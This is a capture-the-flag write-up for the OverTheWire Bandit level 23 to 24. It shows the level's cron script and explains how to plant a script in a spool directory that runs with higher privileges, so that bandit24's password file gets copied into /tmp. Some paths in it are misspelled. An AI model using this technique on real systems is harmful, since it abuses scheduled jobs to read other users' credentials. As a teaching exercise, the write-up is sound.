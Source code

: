   \
  Content of `/usr/bin/cronjob_bandit24.sh`
  
  ```
  #!/bin/bash

  myname=$(whoami)

  cd /var/spool/$myname/foo || exit 1
  echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
  for i in * .*;
  do
      if [ "$i" != "." -a "$i" != ".." ];
      then
          echo "Handling $i"
          owner="$(stat --format "%U" ./$i)"
          if [ "${owner}" = "bandit23" ]; then
              timeout -s 9 60 ./$i
          fi
          rm -rf ./$i
      fi
  done
  ```
  
  \
  Shortly, `myname` variable will have the `bandit24` value.  
  So the scripts will be executed from `/var/spool/bnadit24/foo` path and then removed.  
  
  \
  We need to write our script that will copy bandit24's password from `/etc/bnaidt_pass/bandit24`.  
  
  \
  First, make a directory in `/tmp`. `mkdir /tmp/whatever`.  
  Navigate to that directory: `cd /tmp/whatever`.  
  
  \
  Once you're here, use `vim whatevernameyouwant.sh` to create a `.sh` file.  
  We'll use `cat` to redirect the content of `/etc/bandit_pass/bandit24` to a file in our `/tmp` directory.  
  <sub> NOTE: The script will run under bandit24 permissions, so it will be able to read from bandit_pass/bandit24 file </sub>  
  
  \
  The content of the script should be something like this 
  ```
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 > /tmp/whatever/output
  ```
  
  \
  Exit `vim` and `chmod +x whatevernameyouwant.sh`.  
  Then, create the `output.txt` file : `touch output`.  
  
  \
  Set `read` and `write` permissions for `output` file: `chmod o+rw output`.   
  Copy the script to `/var/spool/bandit24/foo`: `cp whatever.sh /var/spool/bandit24/foo`.   
  